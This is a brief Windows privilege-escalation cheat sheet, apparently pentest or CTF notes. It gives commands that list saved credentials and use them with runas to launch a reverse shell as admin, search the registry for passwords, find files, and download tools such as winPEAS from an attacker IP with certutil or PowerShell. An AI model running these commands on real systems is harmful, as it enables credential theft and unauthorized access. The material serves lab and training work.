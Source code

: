 List saved creds:
```shell
cmdkey /list
```
If you see any from the above command use `runas` and `/savecred`
`runas /savecred /user:admin reverse_shell.exe`

**Registry keys:** Registry keys potentially containing passwords can be queried using the commands below.  
```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

**Unattend files:** Unattend.xml files helps system administrators setting up Windows systems. They need to be deleted once the setup is complete but can sometimes be forgotten on the system. What you will find in the unattend.xml file can be different according to the setup that was done. If you can find them on a system, they are worth reading.

## Finding files on Windows
```shell
dir root.txt /s /p
```

## Downloading files from cmd
```bash
certutil.exe -urlcache -split -f "http://10.2.112.113:8000/PostView.ascx" PostView.ascx
```
Using powershell:
```bash
powershell -c "curl http://10.2.112.113/winpeas.exe -OutFile winpeas.exe"
```

## Run an exe from cmd
```bash
start shell.exe
```
